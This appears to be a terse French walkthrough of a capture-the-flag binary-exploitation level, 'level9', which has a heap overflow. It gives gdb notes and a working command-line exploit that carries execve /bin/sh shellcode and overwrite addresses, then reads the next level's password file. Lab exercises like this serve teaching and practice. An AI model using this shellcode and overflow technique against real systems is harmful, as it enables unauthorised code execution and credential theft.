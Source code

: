 gdb level9

info function

on apercois un call "new" qui alloue de la memoire et qui ensuite la copy avec memcpy donc on va essayer d'overflow

en cherchant la liste des functions appele on voit un STRCPY qui nous a deja servi dans les exo d'avant on va donc passer par lui pour lui faire copier ce qu'on veut a l'adresse du strcpy : 0xb7f34aa0

./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + 83 * "A" + "\x0c\xa0\x04\x08"')

cat /home/user/bonus0/.pass